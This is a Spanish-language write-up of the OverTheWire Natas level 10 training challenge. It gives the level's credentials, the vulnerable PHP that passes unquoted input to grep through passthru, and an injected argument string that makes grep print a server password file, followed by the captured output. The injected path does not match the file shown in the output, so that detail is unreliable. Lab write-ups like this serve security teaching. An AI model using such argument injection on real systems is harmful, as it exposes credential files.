 ```yaml
---
title: Natas-10
published: true
---
```


```
Url del reto: http://natas10.natas.labs.overthewire.org/index.php
login:natas10
 pass:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

En este reto, hay que introducir en el formulario una cadena para que en la salida muestre la contraseña del siguiente nivel.
A continuación muestro el código:

```php
<?php

$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>

```

Como se ve en el código, hay ciertos caracteres que no estan permitidos '[;|&]'. 
Después de varias pruebas, di con la tecla introduciendo "-v cat /etc/natas/webpass/natas10" lo cual quedaria el comando:

```bash

grep -i -v cat /etc/natas/webpass/natas10 dictionary.txt

```

Mostrando asi el contenido de ambos ficheros

```html
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>

Output:
<pre>
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
dictionary.txt:
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
dictionary.txt:Americanism
dictionary.txt:Americanism's
dictionary.txt:Americanisms
...
</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

```    
natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

[Volver al archivo](archive)
